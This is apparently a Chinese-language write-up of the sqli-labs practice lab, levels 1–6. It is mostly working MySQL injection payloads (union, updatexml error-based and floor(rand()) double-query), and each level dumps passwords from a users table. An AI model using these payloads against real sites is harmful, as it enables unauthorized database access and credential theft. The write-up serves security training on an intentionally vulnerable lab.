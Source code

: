 # sqli-labs wp

## less-1

字符型注入

?id=1' order by 3--+有回显

?id=1' order by 4--+无回显

?id=' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema =database()--+查出来表名

?id=' union select 1,group_concat(column_name) ,1 from information_schema.columns where table_schema =database() and table_name='users'--+查出来列名

?id=' union select 1,group_concat(password) ,1 from users--+查出来密码



## less-2

?id=1 and updatexml(0x7e,concat(0x7e,database()),0x7e) --+报错注入常用语句

?id=1 and updatexml(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e) --+查表名

?id=1 and updatexml(0x7e,(select group_concat(column_name)  from information_schema.columns where table_schema =database() and table_name='users'),0x7e) --+查列名

?id=1 and updatexml(0x7e,(select group_concat(password)  from users),0x7e) --+爆数据



## less-3

这个题目的查询语句最后用了limit 0,1，导致参数需要同时闭合引号和括号，根据题目提示，需要使用报错注入

?id=2') and updatexml(0x7e,concat(0x7e,database()),0x7e) --+查库名

?id=2') and updatexml(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e) --+查表名

?id=2') and updatexml(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),0x7e)--+查列名

?id=2') and updatexml(0x7e,(select group_concat(password) from users),0x7e)--+爆数据

## less-4

双引号绕过

内容与less-3类似，查密码是

?id=1") and updatexml(0x7e,(select group_concat(password) from users),0x7e)--+



## less-5

double injection

?id=1' union select count(*),1,concat((select database()),floor(rand()*2)) as a from information_schema.tables group by a--+

concat和rand一起用可能会在分组时产生重复键错误，从而把错误信息发送给用户，这个漏洞概率触发，所以需要多次发包

?id=1' union select count(*),1,concat((select group_concat(table_name) from information_schema.tables where table_schema=database()),floor(rand()*2)) as a from information_schema.tables group by a--+

?id=1' union select count(*),1,concat((select group_concat(column_name) from information_schema.columns where table_schema="security" and table_name="users"),floor(rand()*2)) as a from information_schema.tables group by a--+

?id=1' union select count(*),1,concat((select group_concat(password) from users),floor(rand()*2)) as a from information_schema.tables group by a--+

##### 但是，使用了group_concat大大降低了查询报错率，所以放弃使用此函数，转而去用limit

```
?id=1' union select count(*),1,concat((select password from users limit 0,1),floor(rand()*2)) as a from information_schema.tables group by a--+

?id=1' union select count(*),1,concat((select password from users limit 1,1),floor(rand()*2)) as a from information_schema.tables group by a--+
```





less-6

就是闭合方式变成了双引号

与less5相同